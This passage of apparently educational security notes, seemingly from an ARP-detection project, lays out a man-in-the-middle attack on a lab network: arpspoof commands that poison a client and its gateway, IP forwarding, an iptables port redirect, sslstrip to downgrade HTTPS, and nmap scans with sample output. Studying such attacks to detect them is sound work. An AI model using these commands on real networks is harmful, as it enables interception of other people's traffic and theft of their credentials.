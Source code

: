     ![ARPDetect](PoisonedARP.png)

    * Manual ARP poisoning/spoofing attack:
    
        Tutorial: 
        * https://www.golinuxcloud.com/man-in-the-middle-attack-arp-spoofing/
        * https://systemweakness.com/attack-tutorial-ssl-strip-70a0d2d73667


        Tell target machine that we are the router(gateway):
        `arpspoof -i [interface=eth0] -t [clientIP=192.168.64.5] [gatewayIP=192.168.64.1]`

        Tell router that we are actually the target device:
        `arpspoof -i [interface=eth0] -t [gatewayIP=192.168.64.1] [clientIPgatewayIP=192.168.64.5]`

        Enable IP forwarding to make attacker act as a router and start analysis using `tcpdump`:
        ```
        sudo su
        echo 1 > /proc/sys/net/ipv4/ip_forward
        exit
        ```

    * Redirect traffic from port 80 to 8080:
        `iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080`

    * SSLstrip tool for man in the middle attacks - forcing client to connect via HTTP instead of HTTPS:
        `sslstrip -l 8080`


    * Perform a scan of the local network `sudo nmap -sn <subnet=192.168.64.0/24>` or `sudo nmap -pn 192.168.64.1/24`
        
            Nmap scan report for 192.168.64.5
            Host is up (0.0010s latency).
            MAC Address: EE:B4:0D:81:1A:83 (Unknown)

            Host is up (0.0012s latency).
            Not shown: 994 closed tcp ports (reset)
            PORT     STATE SERVICE
            53/tcp   open  domain
            88/tcp   open  kerberos-sec
            445/tcp  open  microsoft-ds
            3306/tcp open  mysql
            5000/tcp open  upnp
            7000/tcp open  afs3-fileserver
            MAC Address: 1E:57:DC:03:0E:64 (Unknown)

            Nmap scan report for 192.168.64.5
            Host is up (0.00036s latency).
            Not shown: 999 closed tcp ports (reset)
            PORT   STATE SERVICE
            22/tcp open  ssh
            MAC Address: EE:B4:0D:81:1A:83 (Unknown)
